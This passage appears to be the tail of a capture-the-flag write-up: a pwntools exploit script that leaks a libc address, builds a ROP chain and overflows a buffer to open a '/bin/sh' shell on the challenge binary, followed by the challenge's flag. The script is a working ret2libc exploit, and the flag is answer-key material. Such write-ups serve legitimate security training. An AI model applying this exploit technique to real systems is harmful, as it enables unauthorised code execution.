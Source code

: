 ```
    p.send(payload)

    p.recvuntil(b'right up\n')

    printf_leak = u64(p.recv(6) + b'\x00\x00')
    print(hex(printf_leak))

    ### pop a shell ###
    libc_base = printf_leak - printf
    system = libc_base + libc.sym['system']
    binsh = libc_base + next(libc.search(b'/bin/sh'))

    ropchain = p64(pop_rdi)
    ropchain += p64(printf_got)
    ropchain += p64(puts_plt)

    ropchain += p64(pop_rdi)
    ropchain += p64(binsh)
    ropchain += p64(system)

    # p.interactive()
    __print(p.recvuntil(b'> ').decode())
    p.sendline(b'2')

    __print(p.recvuntil(b'nibble on?').decode())
    p.send(b'99')
    __print(p.recvuntil(b'> ').decode())
    p.sendline(b'A'*(48+8) + ropchain)

    p.interactive()

if __name__ == '__main__':
    main()
```

Flag: `flag{hope_you_enjoy_this_appetizer}`

